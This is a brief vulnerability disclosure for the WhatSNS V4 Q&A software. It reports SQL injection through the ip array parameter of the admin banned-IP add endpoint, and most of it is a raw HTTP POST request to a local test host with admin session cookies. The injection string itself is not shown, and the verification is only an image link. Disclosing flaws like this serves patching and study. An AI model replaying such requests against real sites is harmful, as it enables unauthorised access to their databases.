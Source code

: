 # WhatSNS V4 sqlinject

Project official: [https://www.whatsns.com](https://www.whatsns.com/)

project address: <https://gitee.com/huangyouzhi/whatsns>

## $ip variable

>
>   URL:http://127.0.0.1/whatsns/index.php?admin_banned/add.html

![](/img/w1.png)

- POST:

```
POST /whatsns/index.php?admin_banned/add.html HTTP/1.1
Host: 127.0.0.1
Content-Length: 84
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/whatsns/index.php?admin_banned/add.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1557362955; UIA=25w5_%5D.0a%5Bea51%2C7%2F-0b54%60%2AX4%5D%5D_1%28b7d2%60%2F%2Cb2b%5C83b%2F%28a%29%2A-a66%2C%29073_%5Cc%2F306%60; bdshare_firstime=1557799980117; admin=admin; pass=96e79218965eb72c92a549dd5a330112; _qddaz=QD.hseds1.6f7ht3.jwptla86; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1560155578; _ga=GA1.1.1218018200.1562750483; PHPSESSID=h3hd7t6ptn12padakioc0ma8t1; Hm_lvt_b60316de6009d5654de7312f772162be=1570587747,1570678141,1570858233,1571039155; CmsCode=gab; Hm_lpvt_b60316de6009d5654de7312f772162be=1571039517; whatsnssid=d8bab68b1a953728; whatsnsauth=61e6Qq7XJ%2FsTmG%2BeCWSu507H0taq%2B6l%2BZYn%2Bm7BiW8Tca69D47kPL9pe3n0VoJK9ufoUEfZH0r2xM%2BiGETq5
Connection: close

ip%5B%5D=1&ip%5B%5D=2&ip%5B%5D=3&ip%5B%5D=4&expiration=30&submit=%E6%B7%BB+%E5%8A%A0
```

verification: 

![](https://github.com/YangSirrr/opendebug/blob/sourece/w2.png)

